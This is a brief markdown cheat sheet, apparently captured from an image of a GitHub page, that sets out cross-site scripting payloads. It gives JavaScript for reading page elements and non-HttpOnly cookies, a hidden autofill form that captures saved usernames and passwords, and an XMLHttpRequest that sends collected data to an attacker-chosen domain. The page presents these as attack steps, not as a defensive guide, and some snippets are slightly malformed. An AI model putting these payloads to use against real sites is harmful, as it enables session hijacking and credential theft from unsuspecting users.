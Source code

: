 # XSS
## Document Methods
**Always use setTimeout to 5000 before retrieving document data**
```javascript
document.getElementById('<ID>')
```

```javascript
var value;
var inputs = document.getElementsByTagName('<TAG>')`
var value = <LOGIC>
```

## Cookies (Non Http-Only)
`document.cookie`

## Credentials
**Only works for insecure browser keychains**
```html
<form id='creds' autocomplete='on'>
<input name="username" id="user" type="username" />
<input name="password" id="pw" type="password" />
</form>

<script>
var username = document.getElementById('user').value;
var pw = document.getElementById('pw').value;
</script>
```

## Retrieval
**Does not work if SOP is enabled**
```javascript
var req = new XMLHttpRequest();
req.open('<DOMAIN>', true);
body = String(<INFO>);
req.send(body);
```
